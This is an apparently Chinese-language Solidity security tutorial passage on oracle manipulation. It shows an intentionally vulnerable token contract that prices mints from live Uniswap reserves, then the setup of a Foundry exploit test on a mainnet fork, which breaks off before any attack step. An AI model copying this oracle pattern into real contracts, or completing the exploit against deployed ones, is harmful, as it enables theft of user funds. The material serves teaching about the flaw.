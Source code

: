 ### 漏洞合约

*示例参考： [https://github.com/AmazingAng/WTF-Solidity/blob/main/S15_OracleManipulation/readme.md](https://github.com/AmazingAng/WTF-Solidity/blob/main/S15_OracleManipulation/readme.md)*

```solidity
contract oUSD is ERC20 {
    // 主网合约
    address public constant FACTORY_V2 = 0x5C69bEe701ef814a2B6a3EDD4B1652CB9cc5aA6f;
    address public constant WETH = 0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2;
    address public constant BUSD = 0x4Fabb145d64652a948d72533023f6E7A623C7C53;

    IUniswapV2Factory public factory = IUniswapV2Factory(FACTORY_V2);
    IUniswapV2Pair public pair = IUniswapV2Pair(factory.getPair(WETH, BUSD));
    IERC20 public weth = IERC20(WETH);
    IERC20 public busd = IERC20(BUSD);

    constructor() ERC20("Oracle USD", "oUSD") {}

    // 获取ETH price
    function getPrice() public view returns (uint256 price) {
        // pair 交易对中储备
        (uint112 reserve0, uint112 reserve1,) = pair.getReserves();
        // ETH 瞬时价格
        price = reserve0 / reserve1;
    }

    function swap() external payable returns (uint256 amount) {
        // 获取价格
        uint256 price = getPrice();
        // 计算兑换数量
        amount = price * msg.value;
        // 铸造代币
        _mint(msg.sender, amount);
    }
}
```

### EXP代码

```solidity
// pragma solidity ^0.8.4;
import "forge-std/Test.sol";
import "forge-std/console.sol";
import "../src/Oracle.sol";

contract OracleTest is Test {
    address private constant alice = address(1);
    address private constant WETH = 0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2;
    address private constant BUSD = 0x4Fabb145d64652a948d72533023f6E7A623C7C53;
    address private constant ROUTER = 0x7a250d5630B4cF539739dF2C5dAcb4c659F2488D;
    IUniswapV2Router router;
    IWETH private weth = IWETH(WETH);
    IBUSD private busd = IBUSD(BUSD);
    string MAINNET_RPC_URL;
    oUSD ousd;

    function setUp() public {
        MAINNET_RPC_URL = vm.envString("MAINNET_RPC_URL");
        // fork指定区块
        vm.createSelectFork(MAINNET_RPC_URL, 16060405);
        router = IUniswapV2Router(ROUTER);
        ousd = new oUSD();
    }

```